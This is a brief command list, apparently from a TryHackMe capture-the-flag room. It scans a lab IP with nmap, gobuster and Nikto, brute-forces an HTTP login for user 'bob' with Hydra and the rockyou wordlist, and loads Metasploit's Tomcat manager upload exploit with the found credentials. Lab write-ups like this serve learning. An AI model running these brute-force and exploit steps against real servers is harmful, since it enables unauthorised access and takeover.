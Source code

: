 ### Basic commands ###

# Nmap:
nmap -sC -sV -o initial 10.10.105.84

# Gobuster:

gobuster dir -u 10.10.105.84 -w /usr/share/wordlists/dirbuster-ng/wordlists/big.txt -o gobuster                                      

# Hydra:

hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.105.84 http-get /protected

# Nikto:

nikto -host http://10.10.105.84:1234/manager/html -id bob:bubbles -output writeUps/tryhackme/toolsros/nikto -Format txt

# Msfconsole

use exploit/multi/http/tomcat_mgr_upload

set rhost,rport,lhost,lport httpusername and httppassword
